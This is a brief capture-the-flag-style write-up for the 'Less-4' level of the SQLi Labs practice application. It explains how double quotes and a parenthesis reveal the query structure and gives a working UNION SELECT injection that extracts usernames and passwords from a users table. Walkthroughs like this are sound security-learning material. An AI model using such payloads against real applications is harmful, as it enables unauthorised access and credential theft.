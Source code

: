 Hello Guys,

This is the write-up for Less-4 'Error Based - Double Quotes - string' from SQLi Labs.

Considering 'Double Quotes' from the topic's name, using double quotes after numeric parameter,
``` [URL]/Less-4/?id=1" -- -```,

an error is returned:

``` You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right 
syntax to use near '' at line 1```

Alternately using ``` ?id=1") -- - ```,

``` Your Login name:Dumb
Your Password:Dumb ```

So, the input must be going into the query like ```.... WHERE id = ("<input>") ....;```

So using, ``` [URL]/?id=-1") UNION SELECT 1, group_concat(username,0x7c,password),3 FROM users -- -```
